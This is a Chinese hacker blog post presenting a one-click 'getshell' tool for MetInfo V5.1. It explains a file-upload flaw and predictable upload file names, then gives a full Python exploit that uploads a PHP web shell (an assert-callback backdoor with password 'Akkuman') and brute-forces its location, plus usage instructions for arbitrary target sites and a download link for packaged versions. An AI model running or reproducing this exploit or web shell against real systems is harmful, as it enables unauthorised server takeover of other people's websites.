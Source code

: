 ```yaml
---
title: MetInfo V5.1 GetShell一键化工具
date: 2016-06-08 22:40:32
categories: 
- Hacker
tags: 
- Hacker
- Tools
---
```

----------
# 漏洞解析：
----------
**config/config.inc.php**

```php
$langoks = $db->get_one("SELECT * FROM $met_lang WHERE lang='$lang'");

if(!$langoks)die('No data in the database,please reinstall.');

if(!$langoks[useok]&&!$metinfoadminok)okinfo('../404.html');

if(count($met_langok)==1)$lang=$met_index_type;

$query = "SELECT * FROM $met_config WHERE lang='$lang' or lang='metinfo'";//看这里

$result = $db->query($query);

while($list_config= $db->fetch_array($result)){

	if($metinfoadminok)$list_config['value']=str_replace('"', '&#34;', str_replace("'", '&#39;',$list_config['value']));

	$settings_arr[]=$list_config;

	if($list_config['columnid']){

		$settings[$list_config['name'].'_'.$list_config['columnid']]=$list_config['value'];

	}else{

		$settings[$list_config['name']]=$list_config['value'];

	}

}

@extract($settings);
```
----------
<!--more-->
访问

http:///localhost/metinfo5.1/index.php?lang=metinfo

`SELECT * FROM met_config WHERE lang='metinfo' or lang='metinfo'`

----------
## 文件命名方式：
----------
**/feedback/uploadfile_save.php**
```php
srand((double)microtime() * 1000000);

$rnd = rand(100, 999);

$name = date('U') + $rnd;

$name = $name.".".$ext;

```
**文件保存在/upload/file/目录**

命名方式就是时间戳去掉后三位，紧接着一个三位数的随机数

可爆破：

如

http://127.0.0.1/upload/file/1465394396.php

----------

# 一键化利用工具：

----------

**本程序基于python编写**

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-

import requests
import Queue
import threading
import time
import sys


headers = {'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.10 Safari/537.36'}

urls = Queue.Queue()
#http://hb.jhxjd.com/upload/file/1441445378.php

def bp(urls,time_out):
    while not urls.empty():
        base_url = urls.get()
        response = None

        try:
            time.sleep(int(time_out))#延时设置
            response = requests.get(base_url,headers=headers)
            if response.status_code == 404:
                print 'Not Fount----%s\n' % base_url
        except:
            continue
        finally:
            if response:
                with open('url.txt','a+') as f:
                    f.write('%s?e=YXNzZXJ0\n'%base_url)

def main(target_url,thread_num,time_out):

    #取出当前时间戳并删除后四位
    now = str(int(time.time()))[:-4]

    #将所有的待爆破地址遍历并加入队列
    for i in range(0,10):
        for j in range(100,1000):
            num_str = ''.join((str(i),str(j)))
            url = ''.join(('%s/upload/file/%s' % (target_url,now),num_str,'.php'))
            urls.put(url)

    #上传文件
    with open('xiaoma.php','w+') as fi:
        fi.write("<?php $e = $_REQUEST['e'];register_shutdown_function(base64_decode($e), $_REQUEST['Akkuman']);?>")
    data = {
            'fd_para[1][para]':'filea',
            'fd_para[1][type]':'5'
            }
    files = {'filea': open("xiaoma.php", 'rb')}
    upload_url = '%s/feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo' % target_url
    res = requests.post(upload_url,data = data,files=files)
    #等待两秒  文件上传
    time.sleep(2)




    #启动多线程
    for i in range(int(thread_num)):
        t = threading.Thread(target = bp,args=(urls,time_out,))
        t.start()


if __name__ == '__main__':
    if len(sys.argv) != 4:
        print 'Example : %s http://www.xxx.com 20 0' % sys.argv[0]
    else:
        main(sys.argv[1],sys.argv[2],sys.argv[3])

```

程序略显粗糙

为了方便，我也把他打包成了**exe**

然后闲着没事，想着简单地给他做了个**界面**,这样的
![GUI](/images/uploads/467265555564577246543847664e6d7366696739786c37515370714d.png)

----------
# 文件说明
----------
> MetInfo V5.1上传漏洞getshell利用工具

> 	作者 : Akkuman

> 漏洞原理详见http://www.wooyun.org/bugs/wooyun-2010-0139168

> 使用说明：
> 本目录有两个文件，一个py，一个exe
> 因为exe是py文件打包而成，故文件较大
> 64位系统测试使用通过
> 
> 如果你安装了py2.x环境  py文件使用方法
> 打开cmd
> python baopo.py http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> exe命令行文件使用方法
> 打开cmd
> baopo.exe http://www.xxx.com 20 0
> 20是线程数，0是每次请求等待时间（网站限制时可设置为2或3）可以自己指定
> 
> GUI程序，应该不用说
> 
> 关于getshell与结果
> 上传的是回调一句话木马
> ```php
> <?php >$e=$_REQUEST['e'];register_shutdown_function(base64_decode($e),$_>REQUEST['Akkuman']);?>
> ```
> 菜刀连接，密码是Akkuman
> 
> 爆破结果会生成在**url.txt**

----------
# 下载地址：
----------
[(访问码:1475)](http://cloud.189.cn/t/v263QbMJVJ3u )

*转载请注明出处*

*作者博客 www.hacktech.cn*
